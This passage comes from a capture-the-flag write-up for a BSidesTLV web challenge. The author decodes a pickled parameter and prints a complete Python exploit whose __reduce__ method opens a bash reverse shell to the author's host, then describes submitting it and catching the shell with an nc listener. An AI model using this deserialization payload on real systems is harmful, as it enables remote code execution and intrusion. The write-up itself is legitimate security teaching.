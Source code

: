 ![cb3b430d.png](/assets/images/posts/bsidestlv-web/cb3b430d.png)

Bear with me. We are getting to the root of the challenge.

![6c2569d8.png](/assets/images/posts/bsidestlv-web/6c2569d8.png)

Here, I did a `base64` decode of the value after the `data` parameter, and pipe it to `file`. What do you see? `zlib` compressed data? Let's decompress it.

![6d820ade.png](/assets/images/posts/bsidestlv-web/6d820ade.png)

What do we have here? This looks like Python's data serialization using `pickle`. In fact, the name of the challenge is a dead giveaway right from the get-go.

There's plenty of Google results on this subject but I find this blog [post](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html) has the best explanation. Armed with this knowledge, I wrote a Python exploit that will serialize a Python object that runs a reverse shell back to me.

<div class="filename"><span>picklerick.py</span></div>

```py
import base64
import os
import pickle
import socket
import subprocess
import urllib
import zlib

class Evil(object):
  def __reduce__(self):
    return (os.system, ("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.30.128\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'", ))

print urllib.quote(base64.b64encode(zlib.compress(pickle.dumps(Evil()))))
```

Let's run the exploit.

![771ce93f.png](/assets/images/posts/bsidestlv-web/771ce93f.png)

Copy the output of this exploit and supply it as the value to the `data` parameter above, and let the web application perform the deserialization.

On another terminal, set up a `nc` listener and wait for the reverse shell.

![09b5c65f.png](/assets/images/posts/bsidestlv-web/09b5c65f.png)

Voila, we have shell. The flag is at `/flag.txt`

![fc0952bc.png](/assets/images/posts/bsidestlv-web/fc0952bc.png)

The flag is `BSidesTLV{IC0ntr0ll3dP1ckl3R1ck!}`.
